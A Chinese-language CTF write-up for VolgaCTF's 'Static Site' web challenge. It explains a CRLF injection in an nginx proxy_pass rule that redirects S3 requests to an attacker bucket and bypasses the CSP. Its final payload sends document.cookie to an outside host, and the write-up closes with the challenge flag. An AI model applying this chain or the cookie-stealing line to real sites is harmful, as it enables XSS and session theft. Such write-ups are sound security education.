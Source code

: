 # Static Site

個人覺得這題是 Web 裡面比較好玩的一題

首先題目給了 default (nginx.conf) 和 index.html

```
server {
    listen 443 ssl;
    resolver 8.8.8.8;
    server_name static-site.volgactf-task.ru;

    ssl_certificate      /etc/letsencrypt/live/volgactf-task.ru/fullchain1.pem;
    ssl_certificate_key  /etc/letsencrypt/live/volgactf-task.ru/privkey1.pem;

    add_header Content-Security-Policy "default-src 'self'; object-src 'none'; frame-src https://www.google.com/recaptcha/; font-src https://fonts.gstatic.com/; style-src 'self' https://fonts.googleapis.com/; script-src 'self' https://www.google.com/recaptcha/api.js https://www.gstatic.com/recaptcha/" always;

    location / {
      root /var/www/html;
    }

    location /static/ {
      proxy_pass https://volga-static-site.s3.amazonaws.com$uri;
    }
}
```

```html
<!doctype html>
<html lang="en">
  <head>
    <meta charset="utf-8">
    <meta name="viewport" content="width=device-width, initial-scale=1, shrink-to-fit=no">
    <title>Static Site</title>
    <link rel="stylesheet" href="./static/bootstrap.min.css">
  </head>

  <body class="text-center">
    <div class="cover-container d-flex h-100 p-3 mx-auto flex-column">
      <header class="mt-5">
          <h3 class="masthead-brand">Static Site</h3>
      </header>

      <main role="main" class="mt-5">
        <p class="lead"><img src="./static/hacker.gif"/></p>
        <p class="lead pt-5">
          Ok, hackers, I created a static site with a strict Content-Security-Policy.
        </p>
        <p class="lead">
          It is simply impossible to steal my cookies now!
        </p>
        <p class="lead">
          But, you can still try:
        </p>
        <p>
          <form id="form" class="form-inline justify-content-center" method="POST" action="https://bot-static-site.volgactf-task.ru/">
            <div class="form-group">
              <label for="url">URL</label>
              <input type="url" name="url" id="url" class="form-control mx-sm-3">
              <input type="submit" class="btn btn-secondary g-recaptcha" data-sitekey="6LdN230aAAAAAPsMXHWZ9szidC6tbkSzWDarMqmL" data-callback="onSubmit" data-action="submit">
            </div>
          </form>
        </p>
      </main>
    </div>
    <script src="https://www.google.com/recaptcha/api.js"></script>
    <script src="./static/captcha.js"></script>
  </body>
</html>
```

第一個漏洞在 nginx config 裡

```
location /static/ {
      proxy_pass https://volga-static-site.s3.amazonaws.com$uri;
}
 ```

這裡 `$uri` 其實可以帶 `\r`, `\n`

所以有 CRLF Injection 的問題

但目標是 XSS，所以單純 Request 的 CRLF Injection 還不夠，需要找地方控制 Response

由於該網站是架在 AWS S3 上的，所以其實下一步就是利用 CRLF Injection 把 `Host` header 蓋成我們自己的 S3 domain

然後我們就可以讓 Response 變成我們能控制的內容了!

大概是這種感覺:

```
https://static-site.volgactf-task.ru/static/index.html%20HTTP/1.1%0d%0aHost:kaibroxss2.s3.amazonaws.com%0d%0a%0d%0aa
```

接著，因為有 CSP 的關係，我們只能用 `<script src="xxxx"></script>` (self) 的方式來執行 javascript

只要用相同方式把 js file 傳到 s3 上，就能搞定 CSP 了

<br>

最後的 payload:

index.html:

```
<script src="/static/s.js%20HTTP/1.1%0d%0aHost:kaibroxss2.s3.amazonaws.com%0d%0a%0d%0aa"></script>
```

s.js:

```
document.location="https://kaibro.tw/"+document.cookie
```

=>

flag: `VolgaCTF{fc3ab39a7c258c8d15cc49d3aa34511b}`


